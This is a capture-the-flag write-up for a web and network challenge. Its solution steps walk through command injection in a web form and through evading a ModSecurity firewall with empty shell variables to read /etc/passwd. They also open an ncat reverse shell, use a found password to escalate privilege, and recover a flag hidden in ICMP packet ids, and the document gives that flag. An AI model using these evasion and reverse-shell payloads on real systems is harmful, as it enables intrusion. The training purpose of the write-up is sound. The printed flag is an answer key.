 # Knock-Knock! Anyone There?
### Category: Networks
### Author: Delara (lara)

## Description

N-Team,

We've heard one of the prisoners of OmniFlags was working on a website before omni got to them. We suspect the website is quite buggy as it was still under development. Do you think you can break it?

HQ

## Hints
1. Have you looked at robots.txt?
2. Can you evade web application firewalls?

## Solution
1. Looking through the website you would notice that there is a box and a button called 'run'. The name of the box is also called 'command' which hints at you having the ability to run system commands on the server that's hosting this website.
2. Running 'ls' would give you all the files in the directory and of interest is the 'CHANGELOG' file. 
3. You could also look at robots.txt to get directed to this file. 
4. Looking through this file, we gain two valuable pieces of information,
   1. There is some proxy server running on the local network at '172.16.238.30'
   2. This website has Modsecurity firewall set up with CRS but one particular rule is excluded. 
5. Now it's time to explore and see what commands we can and we cannot run.
6. After exploring, you would be able to figure out you can run "dangerous" commands using uninitialized variables. 
7. With this you can run this command 'cat /etc$u/passwd$u' to print '/etc/passwd'
8. Furthermore, you can get reverse shell access using this command 'ncat$u <ip> <port> -e /bin$u/bash$u' (note that this is one of the many ways you could have gotten a reverse shell)
9. Once you get a reverse shell, you will the user 'www-data'. Exploring the box, you will find that there is a file called 'message.txt' in the user's 'sappheiros' home directory but you don't have permission to read this file. So you somehow need to escalate your privilege. 
10. In the '/opt/backup' directory there is a file called 'cGFzc3dvcmQ' which contains the user's password
11. Running 'su sappheiros' and giving it the password you found will make you the user
12. Now that you have access to the home directory you should be able to read the file and the content is 'part 1: magpie{y0u_h4v3_7h3_'. This is the first part of the flag.
13. We now need to explore the box more to figure out what the second part of the flag is. 
14. Given the content of '/etc/passwd' and 'etc/group' you will be able to figure out that the current user can run 'tcpdump' commands. 
15. Looking back at the CHANGELOG file you would guess that you need to listen for connections coming from that ip
16. Trying on a few 'tcpdump' methods, you will find that 'tcpdump -A host 172.16.238.30' will give you the information you need.
17. Examining the ICMP packets being sent, you will find that there is a message being formed that read like this 
'''
"Hello there! If you are reading this it means you have already broken into my server. Omniflags got to me before I could finish the implementation. Thus why you could probably break into it. I suddenly remembered this website I was working on and thought it would be a good way to send a message. Who knows maybe someone actually finds a way to break into my server. I'm sending this message as a secret just in case they find out what I have done. The flag is the only way to get me out of here so I really hope you find it. It's hidden in these messages but I can't tell you where in case they read these messages. You're close! Keep looking! Best of luck!
'''
18.  This hints that the rest of the flag in these packets. Examining the packets again more carefully, you will find that the id for the packets are all ascii numbers. 
19.  You now have to convert all the id's to ascii characters and this will give you the rest of the flag. (note that each packet gets sent and received and so you only need to count the id once)
20.  The beginning and the end of the id's are marked by the 'Hello There!' and the 'Best of luck!' messages respectively. 

### References
WAF evasion techniques: 

https://medium.com/secjuice/waf-evasion-techniques-718026d693d8 

https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0

https://www.secjuice.com/web-application-firewall-waf-evasion/

Hiding data in an ICMP packet:

https://www.researchgate.net/figure/An-ICMP-packet-carrying-a-hidden-message_fig3_268401309 

## Flag
`magpie{y0u_h4v3_7h3_p0w32_70_54v3_7h3_w021d}`

